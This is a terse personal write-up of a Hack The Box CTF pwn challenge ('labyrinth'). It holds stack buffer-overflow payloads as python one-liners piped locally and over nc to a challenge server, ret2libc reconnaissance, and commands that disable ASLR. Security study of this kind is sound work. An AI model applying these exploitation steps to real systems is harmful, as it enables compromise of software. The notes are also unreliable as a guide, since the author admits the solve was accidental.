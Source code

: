 # labyrinth

**SOLVED** - Note: I think I got this by accident (review this: https://github.com/Mymaqn/HTBCA2023_Pwn_Writeups/tree/master/labyrinth)

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. 
> Choose the correct door wisely, for the wrong choice could have deadly consequences.

```sh
strings labrynth

/opt/ghidra_10.1.5_PUBLIC/ghidraRun &
```

https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/ret2libc

```sh
# disable ASLR
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# find libc and base
ldd labrynth

# linux-vdso.so.1 (0x00007ffff7fc1000)
#         libc.so.6 => ./glibc/libc.so.6 (0x00007ffff7c00000)
#         ./glibc/ld-linux-x86-64.so.2 => /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fc3000)

# find libc system
readelf -s ./glibc/libc.so.6 | grep system
# -s symbols

# 1481: 0000000000050d60    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

# find /bin/sh
strings -a -t x ./glibc/libc.so.6 | grep /bin/sh
# -a entire file, -t x outputs offset in hex

# 1d8698 /bin/sh

ROPgadget --binary labyrinth | grep rdi
# 0x000000000040166b : pop rdi ; ret
```

need to get here -> 0x004012c1  (escape_plan)

```sh
r <<< $(echo "069"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*48 + b'\xd8\xe3\xff\xff\xff\x7f\x00\x00' + b'\xb0\x12\x40\x00\x00\x00\x00\x00')") 
```

```sh
# re-enable ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space

# disable again
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

 (echo "069"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*48 + b'\xd8\xe3\xff\xff\xff\x7f\x00\x00' + b'\xb0\x12\x40\x00\x00\x00\x00\x00')") | ./labyrinth 
```

```sh
(echo "069"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*48 + b'\xd8\xe3\xff\xff\xff\x7f\x00\x00' + b'\xb0\x12\x40\x00\x00\x00\x00\x00')") | nc 161.35.168.118 32643
```

must not be working remotely because of ASLR

```sh
pwndbg> checksec
# [*] '/home/barrett/repos/ctf/cyber-apocalypse-2023/pwn/labryinth/labyrinth'
#     Arch:     amd64-64-little
#     RELRO:    Full RELRO
#     Stack:    No canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)
#     RUNPATH:  b'./glibc/'

# https://ir0nstone.gitbook.io/notes/types/stack/relro
# relro moves the libc GOT pointers we need, every application start, to a different address.

# https://stacklikemind.io/ret2libc-aslr

readelf --relocs labyrinth
# 000000403f78  000300000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0

readelf labyrinth
# entry 0x401140

ROPgadget --binary labyrinth | grep rdi
# 0x000000000040166b : pop rdi ; ret

# gdb
# pattern create 200
```

https://ir0nstone.gitbook.io/notes/types/stack/aslr/ret2plt-aslr-bypass
https://infosecwriteups.com/ret2libc-attack-in-lin-3dfc827c90c3

Door: AAAA/bin/sh

```c
fgets((char *)&local_38,0x44,stdin);
// 68 bytes
```

```sh
(echo "069"; \
python3 -c "import sys; sys.stdout.buffer.write(b'A'*55)") \
| ./labyrinth 
```

honestly not sure why this worked - `python3 flag.py`

`HTB{3sc4p3_fr0m_4b0v3}`
